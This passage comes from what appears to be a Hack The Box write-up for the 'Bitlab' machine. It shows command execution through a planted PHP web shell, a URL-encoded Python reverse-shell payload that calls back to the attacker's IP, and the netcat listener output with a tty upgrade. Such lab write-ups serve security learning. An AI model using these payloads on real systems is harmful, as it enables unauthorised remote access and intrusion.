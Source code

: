 After that, I tried running a simple command to test if the server runs PHP code:

<div>
<center><img src="/images/bitlab_htb_writeup/image-27.png"></center>
</div>

I wanted to upgrade to an interactive shell, so I used [shellgenerator](https://shellgenerator.github.io/) to generate a command that used python to start a reverse shell:

{% highlight bash %}
http://bitlab.htb/profile/yakuhito.php?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.15.153%22,443));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27

{% endhighlight %}

{% highlight bash %}
root@fury-battlestation:~/htb/blog/bitlab# nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.15.153] from (UNKNOWN) [10.10.10.114] 34310
/bin/sh: 0: can;t access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@bitlab:/var/www/html/profile$

{% endhighlight %}

## Getting user.txt

After looking around for a bit, I found an interesting snippet on Gitlab:
<center><img src="/images/bitlab_htb_writeup/image-28-1024x538.png"></center>
